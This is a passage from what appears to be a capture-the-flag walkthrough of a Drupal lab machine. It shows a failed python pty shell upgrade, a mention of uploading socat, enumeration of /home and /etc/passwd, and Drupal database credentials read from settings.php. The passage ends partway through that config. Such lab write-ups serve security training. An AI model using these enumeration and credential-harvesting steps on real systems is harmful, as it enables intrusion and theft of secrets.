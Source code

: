     
    
    bash-4.2$ python3 -c 'import pty;pty.spawn("bash")'
    Traceback (most recent call last):
      File "<string>", line 1, in <module>
      File "/usr/lib64/python3.6/pty.py", line 154, in spawn
        pid, master_fd = fork()
      File "/usr/lib64/python3.6/pty.py", line 96, in fork
        master_fd, slave_fd = openpty()
      File "/usr/lib64/python3.6/pty.py", line 29, in openpty
        master_fd, slave_name = _open_terminal()
      File "/usr/lib64/python3.6/pty.py", line 59, in _open_terminal
        raise OSError('out of pty devices')
    OSError: out of pty devices
    

I wasn’t able to find a way around that. I didn’t really need a PTY shell, but
if I did, I would have tried uploading `socat` next.

## Shell as brucetherealadmin

### Enumeration

#### Users

Typically I go look at `/home` to see what other users are on the box and
where I might want to pivot next. Interestingly, I can’t see anything in
`/home`:

    
    
    bash-4.2$ ls -l /home
    ls -l /home
    ls: cannot open directory /home: Permission denied
    

Looking at `/etc/passwd`, there’s one other account of interest,
brucetherealadmin:

    
    
    bash-4.2$ cat /etc/passwd | grep sh
    cat /etc/passwd | grep sh
    root:x:0:0:root:/root:/bin/bash
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
    brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
    

#### Drupal Config

apache doesn’t have access to much, so back into the web directory. There’s a
`settings.php` file in `/var/www/html/sites/default`. It’s got DB creds:

    
    
    $databases = array (
      'default' =>
      array (
        'default' =>
        array (
          'database' => 'drupal',
          'username' => 'drupaluser',
          'password' => 'CQHEy@9M*m23gBVj',
          'host' => 'localhost',
          'port' => '',
          'driver' => 'mysql',
          'prefix' => '',
        ),
      ),